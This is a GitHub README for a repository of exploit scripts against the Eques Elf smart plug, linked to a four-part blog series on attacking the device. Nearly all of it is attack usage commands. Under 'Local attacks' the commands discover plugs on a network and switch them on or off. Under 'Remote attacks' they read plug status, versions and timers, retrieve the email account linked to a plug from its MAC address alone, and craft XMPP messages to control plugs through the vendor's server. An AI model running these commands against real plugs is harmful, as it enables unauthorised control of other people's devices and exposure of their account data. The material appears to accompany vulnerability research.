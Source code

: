 This repo contains exploit code/scripts for the eques elf smart plugs - https://equeshome.com/products/elf-smart-plug.

Full details can be found in the following four part series - https://www.ckn.io/blog/2019/08/27/exploiting-the-eques-elf-smart-plug-part-one/

## Local attacks

To discovery all smart plugs in a network:

```
go run equeslocal.go --command=discover
```
To check the status of a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=status
```
To turn on a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=on
```
To turn off a smart plug:

```
go run equeslocal.go --mac=<mac address of the plug> --pass=<password/name of the plug> --ip=<IP address of the plug> --command=off
```
## Remote attacks

To check the software and hardware version of a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=version
```
To check the status of a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=status
```
To get the email account linked to a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=auth
```
To check if a timer is set on a smart plug
```
go run equescommand.go --mac=<mac address of the plug> --command=timer
```
To generate the message to turn the plug on over xmpp. The message can then be sent to "devicemac"@ikonkek2.com.
```
go run equesxmpp.go --devicemac=<mac address of the plug> --pass=<password/name of the plug> --command=on
```
To generate the message to turn the plug off over xmpp. The message can then be sent to "devicemac"@ikonkek2.com.
```
go run equesxmpp.go --devicemac=<mac address of the plug> --pass=<password/name of the plug> --command=off
```

